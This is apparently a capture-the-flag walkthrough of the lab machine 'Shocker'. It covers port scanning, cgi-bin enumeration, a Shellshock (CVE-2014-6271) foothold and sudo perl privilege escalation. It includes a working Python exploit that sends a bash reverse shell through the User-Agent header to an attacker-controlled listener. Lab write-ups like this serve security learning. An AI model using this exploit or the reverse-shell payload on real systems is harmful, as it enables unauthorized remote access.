




Box author | 

<!--more-->

## Nmap
Like always, I’m going to scan the IP Address by using [nmap](https://nmap.org/) but I’m going to scan the full port first. Then, I’m going to scan the only open ports.

```sql
nmap -p80,2222 -sCV -oN nmap/shocker 10.10.10.56

80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)

2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4f8ade8f80477decf150d630a187e49 (RSA)
|   256 228fb197bf0f1708fc7e2c8fe9773a48 (ECDSA)
|_  256 e6ac27a3b5a9f1123c34a55d5beb3de9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The nmap scan result is completed. There are just `2` port opens which are port `80` and port `2222`. It's a bit odd to configure the `SSH` in another port besides the standard port `22`. However, based on the [OpenSSH](https://launchpad.net/ubuntu/+source/openssh/1:7.2p2-4ubuntu2.2) service banner, this is an Ubuntu (xenial) machine. Unfortunately, I can't do much with `SSH` since it's mostly secure hence the name `Secure Shell`. :)

## Http: don't bug me!
With that information in hand. I've navigated port `80` through my browser and I've been greeted with this page. It's just a funny image with text that says `"Don't Bug Me!"`. Based on the `index` page extension, it's an `html` file.


### Gobuster
So, I'm going to run [gobuster](https://github.com/OJ/gobuster) to enumerate more on this webserver. However, it's just a massive dead end for me. I can't find anything at all. Based on this machine name, which is `shocker` and I'm thinking somehow it's based on [Shellshock](https://en.wikipedia.org/wiki/Shellshock_(software_bug)) vulnerability. Also, it has an `Apache` web server running and this vulnerability can occur in the [/cgi-bin/](https://en.wikipedia.org/wiki/Common_Gateway_Interface) directory. When I navigated to that directory in my browser, I instantly got `Forbidden` or `403` which means it existed.



Now, I'm confused why [gobuster](https://github.com/OJ/gobuster) can't find it at all, and based on the wordlist I used, the `cgi-bin` is present in it. With closer inspection, I found out that it needs to be another "slash" `/` in the end. For example `/cgi-bin` vs `/cgi-bin/`. When it doesn't have `/` at the end, it goes straight to `404 Not Found`. Then, I'll try running the [gobuster](https://github.com/OJ/gobuster) again with tag `-f` for `Append / to each request` and it did manage to find the `/cgi-bin/` directory.



The best thing to do now is to enumerate more in that directory but this time I'm using the `-x` flag for looking up the extension with `.sh` and `.cgi` and I've got a hit with the `user.sh` file.



### Http: /Cgi-Bin/User.sh
When I navigated to that file which is `user.sh` it automatically downloaded it into my machine. When I opened it up, it was `"Just an uptime test script"` and nothing too fancy about it. ;)


## Foothold: ShellShock
So, I already have the file that I needed for the exploitation but I didn't know how to tinker with it. So, the same old me goes to my handsome and wise friend Mr.Google and asking about ShellShock's vulnerability. I ended up finding this [blog](https://www.sevenlayers.com/index.php/125-exploiting-shellshock) post showcasing `"how to exploit shellshock manually"` also the given CVE for this vulnerability is [CVE-2014-6271](https://nvd.nist.gov/vuln/detail/cve-2014-6271). I can inject some arbitrary bash command in the `User-Agent` but with some weird string inside it. Luckily, I manage to find this [answer](https://unix.stackexchange.com/a/157520) regard of that `string` (Kind of understand a bit) but I want to be "leet" today. So, I'm going to make a [python](https://www.python.org/) script to gain the initial foothold with [bash reverse shell](https://www.revshells.com/).

```python
#!/usr/bin/env python3
import argparse
import requests
import sys

parser = argparse.ArgumentParser()
parser.add_argument('-i', '--lhost', metavar='', required=True, help='listening ip')
parser.add_argument('-p', '--lport', metavar='', required=True, help='listening port')
args = parser.parse_args()

if __name__ == "__main__":
    try:
        payload = f"/bin/bash -i >& /dev/tcp/{args.lhost}/{args.lport} 0>&1"

        url = "http://10.10.10.56/cgi-bin/user.sh"
        agent = {'User-Agent':'() { :; }; echo ; echo ; '+ payload}
        req = requests.get(url, headers=agent)
    except KeyboardInterrupt:
        print('\n');sys.exit()
```

why not? ¯\\(0_0)/¯

## PrivEsc: Perl
I'm in as a `shelly` user and the very first thing I love to do is [upgrading my shell](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys#python) with python since this machine has python installed on it. Like always, I love to start with the simple `"check"` in the sudo permission with the `sudo -l` command. Shockingly, I can run `perl` with the sudo command without any authentication needed. So, I'm heading to the lovely [gtfobins](https://gtfobins.github.io/) that have a bunch of collection of Unix binaries that can be abused. Then, I'll try to run it, and BOOM!



VOILA